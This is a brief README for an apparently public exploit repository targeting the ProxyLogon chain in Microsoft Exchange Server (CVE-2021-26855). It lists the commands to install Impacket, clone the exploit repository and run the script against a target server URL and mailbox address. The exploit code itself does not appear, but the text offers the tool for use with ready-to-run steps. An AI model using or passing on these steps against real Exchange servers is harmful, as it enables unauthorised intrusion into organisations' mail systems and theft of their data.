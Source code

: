 # proxylogon
my exploit for the proxylogon chain (Microsoft Exchange Server - CVE-2021-26855)   
# Run:
the exploit uses Impacket package, to install it run this:
```
user@host:~$ python3 -m pip install impacket
```
then clone the exploit repo, and enter the exploit directory:
```
user@host:~$ git clone https://github.com/hakivvi/proxylogon.git && cd proxylogon
```
run the exploit:
```
user@host:~$ python3 proxylogon.py http://mail.corp.com email@corp.com
```

